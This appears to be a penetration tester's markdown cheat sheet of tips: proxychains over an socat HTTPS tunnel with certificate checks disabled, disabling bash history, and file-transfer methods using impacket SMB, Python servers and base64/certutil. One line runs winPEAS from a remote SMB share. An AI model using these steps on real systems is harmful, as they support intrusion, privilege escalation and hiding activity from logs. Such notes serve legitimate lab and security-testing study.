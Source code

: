 ## Find the meaning of unknown error codes with certutil:
`certutil -error <error_id>`

## Access HTTPS proxy with proxychains:
Proxychains supports SOCKS4, SOCKS5 and HTTP but not HTTPS.  
Using socat to create an HTTPS tunnel between a local port and a remote proxy:  
`socat TCP-LISTEN:19999,bind=127.0.0.1,fork,reuseaddr OPENSSL:proxy.yolo.com:8000,verify=0`  
(verify=0 to bypass certificate errors, for example self-signed client certificate)  

Then in `/etc/proxychains.conf` :
`http 127.0.0.1 19999`

From <https://github.com/rofl0r/proxychains-ng/issues/337>  
 
## Temporarily turn off bash history:  
`set +o history`   
   
   
## Setting up an SSH tunnel between the target and source with nc as proxy command:  
TODO

## File transfer techniques: 
### Using SMB:  
`impacket-smbserver share .`  
Then `//10.10.14.108/share/winPEASx64.exe searchall cmd`    
  
### Using python:  
`python2 -m SimpleHTTPServer <PORT>`  
`python3 -m http.server <PORT>`  
  
### Using a compiled binary for Windows:  
`pip install pyinstaller`  
`pyinstaller web.py --onefile`  
  
`web.exe <PORT>`  
  
### Using base64 encoding:  
Server-side (Linux)  
`base64 -w 0 <FILE> | xclip -selection clipboard`  
  
Server-side (Windows). Newlines can be trimmed on Linux using sed.  
`certutil -encode <FILE> tmp_file_base64.txt`  
`sed ':a;N;$!ba;s/\n//g' <FILE>`  
  
Client-side - Linux  
`echo '<BASE64_FILECONTENT>' | base64 --decode > <OUTPUT_FILE>`  
  
Client-side - Windows  
`echo <BASE64_FILECONTENT> > tmp_file_base64.txt`  
`certutil -decode tmp_file_base64.txt <OUTPUT_FILE>`  
`del tmp_file_base64.txt`  
From <https://notes.qazeer.io/general/file_transfer>    
  
